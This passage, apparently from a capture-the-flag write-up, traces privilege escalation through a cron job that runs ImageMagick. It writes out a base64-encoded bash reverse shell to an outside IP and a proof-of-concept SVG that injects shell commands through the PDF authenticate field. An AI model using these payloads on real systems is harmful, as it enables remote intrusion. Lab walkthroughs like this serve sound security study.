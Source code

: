 ```
2022/01/22 17:13:01 CMD: UID=0    PID=1441   | /usr/sbin/CRON -f
2022/01/22 17:13:01 CMD: UID=1000 PID=1442   | /bin/bash /usr/local/bin/convert_images.sh
2022/01/22 17:13:01 CMD: UID=1000 PID=1444   | pkill mogrify
```

Checking the script it cd's into the directory `/var/www/dev01.artcorp.htb/convert_images` and then calls `/usr/local/bin/mogrify` on all files machting `*.*` with an output format of png.

`/usr/local/bin/convert_images.sh`
```
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

Taking a closer look at the mogrify it is actually a symlink to `magick` which is part of ImageMagick.

```
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ ls -la /usr/local/bin/mogrify
lrwxrwxrwx 1 root root 6 Aug 29 15:59 /usr/local/bin/mogrify -> magick
```

To check for possible CVE's in ImageMagick we need the version number first.

```
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ mogrify --version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5)
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
```

Looking the version up on google we are able to find a [PoC](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) which should work with the installed version of ImageMagick. The PoC abuses the the authentication mechanism for password protected PDF's to pass additional shell commands. To abuse this we first we generate a base64 encoded  reverse shell payload.

```
$ echo -n 'bash -c "bash -i >&/dev/tcp/10.10.14.73/7575 0>&1"' | base64
YmFzaCAtYyAiYmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjczLzc1NzUgMD4mMSI=
```

We then take the `poc.svg` from the blogpost and exchange the payload with our reverse shell.

`poc.svg`
```
<image authenticate='ff" `echo -n YmFzaCAtYyAiYmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjczLzc1NzUgMD4mMSI= | base64 -d | bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
